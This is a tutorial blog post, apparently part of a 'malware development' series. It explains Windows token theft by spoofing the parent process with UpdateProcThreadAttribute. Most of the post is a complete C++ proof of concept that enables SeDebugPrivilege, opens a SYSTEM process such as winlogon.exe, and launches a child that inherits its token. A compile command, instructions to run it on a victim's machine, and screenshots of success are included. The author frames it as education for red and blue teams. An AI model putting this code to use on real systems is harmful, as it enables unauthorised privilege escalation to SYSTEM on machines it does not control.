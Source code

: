 \newpage
\subsection{83. malware development: persistence - part 17 - APT techniques: Token theft via UpdateProcThreadAttribute. Simple C++ example.}

﷽

Hello, cybersecurity enthusiasts and white hackers!     

![token](./images/77/2022-10-29_03-59.png){:class="img-responsive"}    

This post is the result of my own research into one of the more interesting APT techniques: token theft via UpdateProcThreadAttribute.     

In the previous [post](https://cocomelonc.github.io/tutorial/2022/09/25/token-theft-1.html) I wrote about classic token theft via `DuplicateTokenEx` and `CreateProcessWithTokenW`. Today I will describe an alternative method that works starting from Windows Vista.     

### UpdateProcThreadAttribute

In the first part of my tutorial, we just doing classic trick: enable `SE_DEBUG_PRIVILEGE`, open a token from any system process (which works even for protected processes also), duplicate the token, adjust privileges on it, and then impersonate with this token.     

Today we can use more simply trick. Microsoft implemented in Vista the ability to designate an explicit parent process when creating a new process, allowing the elevated process to remain a child of the caller.

Typically, in the UAC instance, you must issue an explicit token to the new process. If you do not supply a token, the new process will inherit from the designated parent. The only condition is that the handle to the parent process must have the `PROCESS_CREATE_PROCESS` access privilege.     

So, we just open some system process with `PROCESS_CREATE_PROCESS` access right. Then use this handle with `UpdateProcThreadAttribute`. In consequence, your process inherits a token from the system process.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

And all you need for working this is `SE_DEBUG_PRIVILEGE`.    

### technique. practical example

First of all, sometimes you must turn on `SeDebugPrivilege` in your current set of privileges:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;
}
```

Then, open a process whose access token you wish to steal with `PROCESS_CREATE_PROCESS` access rights:    

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

After that, use it is handle with `UpdateProcThreadAttribute`:    

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, 
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Finally, create process:     

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, 
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
(LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : 
"failed to create process :(\n");
```

So, the full source code of this logic is look like this:       

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : 
  "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, 
  EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
  (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : 
  "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

As you can see, the code is slightly different from the previous part. This code is just dirty PoC, for simplicity, I run `mspaint.exe`.      

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![token](./images/77/2022-10-29_03-48.png){:class="img-responsive"}    

Then, run it at the victim's machine:    

```powershell
.\hack.exe <PID>
```

![token](./images/77/2022-10-29_03-56.png){:class="img-responsive"}    

As an example, you may steal the `winlogon.exe (PID: 544)` access token:     

![token](./images/77/2022-10-29_03-57.png){:class="img-responsive"}    

![token](./images/77/2022-10-29_03-58.png){:class="img-responsive"}    

![token](./images/77/2022-10-29_03-59_1.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!     

I hope this post least a little useful for entry level cyber security specialists (and possibly even professionals), also spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.     

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-28-token-theft-2)        
